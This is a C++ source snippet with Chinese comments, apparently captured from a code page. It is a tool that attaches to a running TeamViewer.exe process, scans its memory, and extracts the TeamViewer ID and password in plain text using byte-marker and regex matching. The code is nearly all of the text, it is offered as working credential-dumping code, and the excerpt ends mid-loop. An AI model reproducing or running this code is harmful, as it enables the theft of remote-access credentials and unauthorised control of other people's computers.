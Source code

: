 ```c++
    fnZwQueryVirtualMemory ZwQueryVirtualMemory = (fnZwQueryVirtualMemory)GetProcAddress(GetModuleHandleA("ntdll.dll"), "ZwQueryVirtualMemory");
    //ndtll.dll得到ZwQueryVirtualMemory

    if (ZwQueryVirtualMemory == NULL) {
        if (ZwQueryVirtualMemory == NULL)
        {
            printf("没有找到ZwQueryVirtualMemory函数");
            system("pause");
            return 0;
        }
    }
    //如果为NULL就是没找到
    DWORD cbNeeded;             //EnumProcessModules参数
    HMODULE pModuleIds[1024];   //EnumProcessModules存放模块的数组
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, GetPidByName(L"TeamViewer.exe"));
    //TeamViewer.exe进程句柄
    EnumProcessModules(hProcess, pModuleIds, sizeof(pModuleIds), &cbNeeded);
    int StartAddress = (int)pModuleIds[0];
    printf("[+]PEBaseAddress: %p\n", StartAddress);     //找到TeamViewer.exe基地址

    do {
        ZwQueryVirtualMemory(hProcess, (LPVOID)StartAddress, MemoryBasicInformation, &mbi, sizeof(mbi), NULL);                  //从基地址开始遍历，将内存信息存放MEMORY_BASIC_INFORMATION结构
        if (mbi.RegionSize == 0x1FF000) {               //查看内存大小是否为1FF000
            int id_temp = 0;                        //临时变量，找到了就改为1，避免重复读取
            char password_temp = 0;                 //同上
            printf("[+]BaseAddress: %p\n", mbi.BaseAddress);            //模块基地址
            for (int i = 0; i < 0x1FF000; i++) {
                char id[0x17];                          //存放id的char数组，因为是unicode字符所以要双倍大小加上前面的0x80和后面的0x00，0x00
                char id_char[0xA] = {0};                //unicode转换为ASCII存放的数组
                char password[0x15];                    //存放密码的unicode数组，加上前面的0x88和后面的0x00，0x00
                char password_char[0x9] = {0};          //同上
                ReadProcessMemory(hProcess, (LPVOID)((int)mbi.BaseAddress + i), password, 0x15, NULL);
                ReadProcessMemory(hProcess, (LPVOID)((int)mbi.BaseAddress + i), id, 0x17, NULL);
                //内存中读出数据
                for (int x = 0; x <= 0x8; x++) {
                    password_char[x] = password[ x * 2 + 2 ];
                }
                //将0x00去除写入password_char数组
                password_char[8] = '\x00';          //最后加上\x00结尾
                if (password[1] == 0xffffff88 && password[17] == 0 && password[18] == 0  &&  regex_match(password_char, regex("[0-9a-z]{8}"))) {
                    printf("[+]password: %s\n", password_char);
                    password_temp = 1;
                }
                //判断password[1]是否为0x88，17,18位是否为00，最后正则匹配password_char
                for (int x = 0; x <= 0x9; x++) {
                    id_char[x] = password[x * 2 + 2];
                }
                //同上
                id_char[9] = '\x00';
                if (id_temp == 0 && id[1] == 0xffffff80 && id[19] == 0 && id[20] == 0 && regex_match(id_char, regex("[0-9]{9}"))) {
                    printf("[+]id: %s\n", id_char);
                    id_temp = 1;
                }
                //这里和上面差不多，id_temp == 0 是因为ID会出现多个相同的值，所以只要取到一次就不用再取了
                if (id_temp == 1 && password_temp == 1) {
                    break;
                }
```